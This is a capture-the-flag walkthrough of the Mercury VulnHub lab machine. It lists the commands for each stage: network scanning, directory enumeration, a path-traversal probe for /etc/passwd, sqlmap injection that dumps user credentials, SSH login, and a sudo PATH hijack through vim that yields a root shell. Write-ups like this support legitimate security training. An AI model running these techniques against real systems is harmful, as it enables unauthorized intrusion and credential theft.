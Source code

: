 ## Full Walkthrough: Mercury VulnHub CTF

**By: Houston Jones**

### Step 1: Network Discovery
Used `sudo arp-scan -l` to scan the local network. Discovered two devices: 10.0.2.2 and 10.0.2.3.

### Step 2: Port Scanning
Scanned 10.0.2.3 using `nmap -sV -Pn 10.0.2.3`. All ports ignored. Not the target.

### Step 3: Identify New Target
Scanned 10.0.0.2, which had several ports open, but not 22 or 8080. Not the target. Resolved network configuration by assigning NAT and Internal networks with matching names.

### Step 4: Confirm New IP
Scanned again and found a new IP with ports 22 and 8080 open. This confirmed the target machine.

### Step 5: Web Reconnaissance
Attempted to visit `http://10.0.2.5:8080` in a browser but connection failed.

### Step 6: Directory Enumeration
Attempted `dirsearch` but had to install via pip due to missing package. Successfully installed and ran:
```
dirsearch -u http://10.0.2.5:8080/ -w /usr/share/wordlists/dirb/common.txt
```
Discovered `robots.txt` file.

### Step 7: Accessing robots.txt
Navigated to `/robots.txt` to search for hidden or sensitive directories.

### Step 8: Directory Traversal Attempt
Attempted `../../../../etc/passwd` and found new directory: `/mercuryfacts`.

### Step 9: Explore mercuryfacts
Visited `/mercuryfacts`. Found two clickable links. Clicking "load a fact" appended `/1` to URL.

### Step 10: Find SQL Clue
Noticed the second link led to a page referencing the "users" database table.

### Step 11: SQL Injection
Used sqlmap to enumerate databases:
```
sqlmap -u http://10.0.2.5:8080/mercuryfacts/1/ --dbs
```
Had to update sqlmap using `sudo apt update && sudo apt upgrade sqlmap`. Discovered `information_schema` and `mercury` databases.

### Step 12: Dumping User Credentials
Ran:
```
sqlmap -u http://10.0.2.5:8080/mercuryfacts/1 -D mercury --dump --batch
```
Recovered usernames and passwords.

### Step 13: SSH Access
Tried each credential via SSH. Successfully logged in as `webmaster`:
```
ssh webmaster@10.0.2.5
```
Captured the user flag: `user_flag_8339915c9a454657bd60ee58776f4ccd`

### Step 14: Privilege Exploration
Not root yet. Explored user directories and found `mercury_proj/notes.txt` with a base64-encoded password.

### Step 15: Decode Password
Decoded with:
```
echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
```
Got password: `mercurymeandiameteris4880km`

### Step 16: Switch User
Switched to `linuxmaster` using the decoded password.

### Step 17: Sudo Permissions
Checked `sudo -l`. Found root access through `/usr/bin/check_syslog.sh`.

### Step 18: Exploit PATH Hijack
Created a symbolic link to override `tail`:
```
ln -s /usr/bin/vim tail
export PATH=$(pwd):$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

### Step 19: Root Shell
Opened `vim` and ran:
```
:!/bin/bash
```
Got root shell. Confirmed with `id`.

### Step 20: Final Flag
Navigated to `/root`, listed contents, and found `rootflag.txt`. Mission accomplished!

---

This concludes the Mercury VulnHub walkthrough. The experience highlighted critical pentesting skills from enumeration to privilege escalation.
